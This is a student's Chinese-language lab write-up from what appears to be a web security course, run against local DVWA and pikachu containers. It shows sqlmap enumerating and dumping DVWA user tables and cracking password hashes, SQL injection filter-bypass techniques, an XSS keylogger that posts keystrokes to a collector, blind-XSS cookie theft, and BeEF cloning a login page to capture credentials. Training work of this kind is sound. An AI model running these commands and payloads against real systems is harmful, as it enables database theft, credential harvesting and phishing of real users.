

#####  1.使用 sqlmap 工具完成对 DVWA 数据库的注入过程，要求按照库、表、列、内容的顺序进行注入。

Burp 抓取个数据包存放到dvwa_data.txt中，


```shell
➜ sqlmap (master) ✔ vi ../dvwa_data.txt
➜ sqlmap (master) ✔
# 爆出库
➜ sqlmap (master) ✔ python sqlmap.py -r ../dvwa_data.txt --level 3 --batch -p id --dbs
...
---
[13:42:09] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[13:42:09] [INFO] fetching database names
available databases [4]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema

[13:42:09] [INFO] fetched data logged to text files under '/Users/minwang/.local/share/sqlmap/output/192.168.216.129'

[*] ending @ 13:42:09 /2023-10-15/

# 爆出表
➜ sqlmap (master) ✔ python sqlmap.py -r ../dvwa_data.txt --level 3 --batch -p id -D dvwa --tables
---
[13:44:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[13:44:20] [INFO] fetching tables for database: 'dvwa'
[13:44:20] [WARNING] reflective value(s) found and filtering out
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+

[13:44:20] [INFO] fetched data logged to text files under '/Users/minwang/.local/share/sqlmap/output/192.168.216.129'

[*] ending @ 13:44:20 /2023-10-15/

# 爆出字段
➜ sqlmap (master) ✔ python sqlmap.py -r ../dvwa_data.txt --level 3 --batch -p id -D dvwa -T users --columns
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.10.1#dev}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:45:41 /2023-10-15/

[13:45:41] [INFO] parsing HTTP request from '../dvwa_data.txt'
[13:45:41] [INFO] resuming back-end DBMS 'mysql'
[13:45:41] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
[13:45:42] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[13:45:42] [INFO] fetching columns for table 'users' in database 'dvwa'
[13:45:42] [WARNING] reflective value(s) found and filtering out
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+

[13:45:42] [INFO] fetched data logged to text files under '/Users/minwang/.local/share/sqlmap/output/192.168.216.129'

[*] ending @ 13:45:42 /2023-10-15/

# 爆出用户名和密码
➜ sqlmap (master) ✔ python sqlmap.py -r ../dvwa_data.txt --level 3 --batch -p id -D dvwa -T users -C user,password --dump
---
[13:46:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[13:46:52] [INFO] fetching entries of column(s) '`user`,password' for table 'users' in database 'dvwa'
[13:46:52] [WARNING] reflective value(s) found and filtering out
[13:46:52] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[13:46:52] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/Users/minwang/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[13:46:52] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[13:46:52] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[13:46:52] [INFO] starting 10 processes
[13:46:58] [INFO] cracked password 'abc123' for hash 'e99a18c428cb38d5f260853678922e03'
[13:47:01] [INFO] cracked password 'charley' for hash '8d3533d75ae2c3966d7e0d4fcc69216b'
[13:47:07] [INFO] cracked password 'letmein' for hash '0d107d09f5bbe40cade3de5c71e9e9b7'
[13:47:09] [INFO] cracked password 'password' for hash '5f4dcc3b5aa765d61d8327deb882cf99'
Database: dvwa
Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+

[13:47:15] [INFO] table 'dvwa.users' dumped to CSV file '/Users/minwang/.local/share/sqlmap/output/192.168.216.129/dump/dvwa/users.csv'
[13:47:15] [INFO] fetched data logged to text files under '/Users/minwang/.local/share/sqlmap/output/192.168.216.129'

[*] ending @ 13:47:15 /2023-10-15/

```


##### 2. 练习课件上给出的 SQL 注入绕过方式。

- 大小写绕过，mysql 中对大小写不敏感

```sql
# 大小写绕过
mysql> select id=1 from member uNIoN sElecT 1;
+------+
| id=1 |
+------+
|    1 |
|    0 |
+------+
2 rows in set (0.00 sec)
```

- 替换关键字
- 使用编码，可以使用burp工具来进行各个类型的编码和解码

- 使用注释，常见注释的符号有 -- ，/**/，#，-- -

  ```sql
  mysql> select id,email from member where username = 'kobe' and 1=1 -- ;
      -> ;
  +----+------------------+
  | id | email            |
  +----+------------------+
  |  3 | kobe@pikachu.com |
  +----+------------------+
  1 row in set (0.00 sec)
  
  # 使用/**/来代替空格，绕过对select的检测
  mysql> select/**/1;
  +---+
  | 1 |
  +---+
  | 1 |
  +---+
  1 row in set (0.00 sec)
  
  # 内联注释，all加了注释，但并不会失去all这个语义
  mysql> select 1 union /*!all*/ select 1;
  +---+
  | 1 |
  +---+
  | 1 |
  | 1 |
  +---+
  2 rows in set (0.01 sec)
  
  ```

- 等价函数与命令

  ```sql
  mysql> select ascii('a');
  +------------+
  | ascii('a') |
  +------------+
  |         97 |
  +------------+
  1 row in set (0.01 sec)
  
  mysql> select hex('a');
  +----------+
  | hex('a') |
  +----------+
  | 61       |
  +----------+
  1 row in set (0.01 sec)
  
  mysql> select 0x61;
  +------+
  | 0x61 |
  +------+
  | a    |
  +------+
  1 row in set (0.00 sec)
  
  # 使用concat_ws('分隔符','字段1','字段2') 替换group_concat
  mysql> select id,email from member;
  +----+-------------------+
  | id | email             |
  +----+-------------------+
  |  1 | vince@pikachu.com |
  |  2 | allen@pikachu.com |
  |  3 | kobe@pikachu.com  |
  |  4 | grady@pikachu.com |
  |  5 | kevin@pikachu.com |
  |  6 | lucy@pikachu.com  |
  |  7 | lili@pikachu.com  |
  +----+-------------------+
  7 rows in set (0.00 sec)
  
  mysql> select concat_ws('~',id,email) from member;
  +-------------------------+
  | concat_ws('~',id,email) |
  +-------------------------+
  | 1~vince@pikachu.com     |
  | 2~allen@pikachu.com     |
  | 3~kobe@pikachu.com      |
  | 4~grady@pikachu.com     |
  | 5~kevin@pikachu.com     |
  | 6~lucy@pikachu.com      |
  | 7~lili@pikachu.com      |
  +-------------------------+
  7 rows in set (0.00 sec)
  
  # mid()替换substr()
  mysql> select username from member;
  +----------+
  | username |
  +----------+
  | vince    |
  | allen    |
  | kobe     |
  | grady    |
  | kevin    |
  | lucy     |
  | lili     |
  +----------+
  7 rows in set (0.00 sec)
  
  mysql> select mid(username,2,1) from member;
  +-------------------+
  | mid(username,2,1) |
  +-------------------+
  | i                 |
  | l                 |
  | o                 |
  | r                 |
  | e                 |
  | u                 |
  | i                 |
  +-------------------+
  7 rows in set (0.00 sec)
  mysql> select mid(username,2,1) from member limit 2,1;
  +-------------------+
  | mid(username,2,1) |
  +-------------------+
  | o                 |
  +-------------------+
  1 row in set (0.02 sec)
  
  # 使用strcmp用来做大小比较
  mysql> select left('password',1);
  +--------------------+
  | left('password',1) |
  +--------------------+
  | p                  |
  +--------------------+
  1 row in set (0.00 sec)
  
  mysql> select left('password',2);
  +--------------------+
  | left('password',2) |
  +--------------------+
  | pa                 |
  +--------------------+
  1 row in set (0.00 sec)
  
  mysql> select hex('p');
  +----------+
  | hex('p') |
  +----------+
  | 70       |
  +----------+
  1 row in set (0.00 sec)
  
  mysql> select strcmp(left('password',1),0x69);
  +---------------------------------+
  | strcmp(left('password',1),0x69) |
  +---------------------------------+
  |                               1 |
  +---------------------------------+
  1 row in set (0.01 sec)
  
  mysql> select strcmp(left('password',1),0x70);
  +---------------------------------+
  | strcmp(left('password',1),0x70) |
  +---------------------------------+
  |                               0 |
  +---------------------------------+
  1 row in set (0.00 sec)
  
  mysql> select strcmp(left('password',1),0x71);
  +---------------------------------+
  | strcmp(left('password',1),0x71) |
  +---------------------------------+
  |                              -1 |
  +---------------------------------+
  1 row in set (0.00 sec)
  ```

- 特殊符号

  ```sql
  # `反引号可以替换空格，and如果会被检测可以使用&&替换
  mysql> select username from`member`where id=1 && 1=1;
  +----------+
  | username |
  +----------+
  | vince    |
  +----------+
  1 row in set (0.00 sec)
  ```

  

##### 3. XSS

- 使用 pikachu 平台练习 XSS 键盘记录、前台 XSS 盲打攻击获取 cookie；

  - xss键盘记录

    ```shell
    # 修改rk.js post server 地址为你自己的pikachu
    minwang@minwang-vm-ubuntu:/$ docker ps
    CONTAINER ID   IMAGE                 COMMAND                  CREATED        STATUS        PORTS                                   NAMES
    3addb5e4a1a5   xiangxw/upload-labs   "docker-php-entrypoi…"   26 hours ago   Up 26 hours   0.0.0.0:8083->80/tcp, :::8083->80/tcp   wizardly_williamson
    ce51c0404636   nbsantos/dvwa         "/bin/sh -c /start.sh"   13 days ago    Up 13 days    0.0.0.0:8081->80/tcp, :::8081->80/tcp   wonderful_cartwright
    67819d63917f   hominsu/pikachu       "foreground.sh"          2 weeks ago    Up 2 weeks    0.0.0.0:8082->80/tcp, :::8082->80/tcp   gracious_leavitt
    
    minwang@minwang-vm-ubuntu:/$  docker exec -it 67819d63917f bash
    root@67819d63917f:/# cd /var/www/html/pikachu/pkxss/
    root@67819d63917f:/var/www/html/pikachu/pkxss# cd rkeypress/
    root@67819d63917f:/var/www/html/pikachu/pkxss/rkeypress# ls -al
    total 24
    drwxrwxr-x 2 root root 4096 Sep 10  2022 .
    drwxrwxr-x 1 root root 4096 Sep 30 09:30 ..
    -rw-rw-r-- 1 root root 1318 Mar 22  2022 pkxss_keypress_result.php
    -rw-rw-r-- 1 root root 1593 Mar 22  2022 rk.js
    -rw-rw-r-- 1 root root  358 Mar 22  2022 rkserver.php
    
    root@67819d63917f:/var/www/html/pikachu/pkxss/rkeypress# vi rk.js
    ...
        ajax.open("POST", "http://192.168.216.129:8082/pikachu/pkxss/rkeypress/rkserver.php",true);
    ...
    
    ```

    在pikachu主页通过管理工具-> xss后台 -> 进入键盘记录

    另开一个窗口在存储型xss留言板中输入“hello”，刷新先前键盘记录窗口，能看到键盘记录。

    

  

  - 前台 XSS 盲打攻击获取 cookie

    ```js
    # 先构建script脚本
    <script>document.write('')</script>
    ```

    

    访问http://192.168.216.129:8082/pikachu/vul/xss/xssblind/admin.php 登录留言板后台，可以看到提交的用户记录。

    在pikachu主页通过管理工具-> xss后台 -> 进入cookie收集，可以看到登录用户的cookie

    

    

- 使用 beef 制作钓鱼页面，克隆任意站点的登录页面并获取用户登录的账号密码。


```shell
┌──(helen㉿kali-arm64)-[~]
└─$ sudo curl -H "Content-Type: application/json; charset=UTF-8" -d '{"url":"http://192.168.216.129:8081/login.php", "mount":"/clone_dvwa"}' -X POST http://192.168.216.136:3000/api/seng/clone_page?token=1d6f29588373a8b6b6e6854b01892e3845696904        
[sudo] password for helen: 
{"success":true,"mount":"/clone_dvwa"}    


// dvwa login url: http://192.168.216.129:8081/login.php
[15:52:35]    |   Hook URL: http://192.168.216.136:3000/hook.js
[15:52:35]    |_  UI URL:   http://192.168.216.136:3000/ui/panel
[15:52:35][*] RESTful API key: 1d6f29588373a8b6b6e6854b01892e3845696904

// <URL of site to clone> 需要克隆的网址 

// <where to mount> 克隆的页面在服务器的哪个路径访问 

// <token> 服务启动时的 beef API key 
```


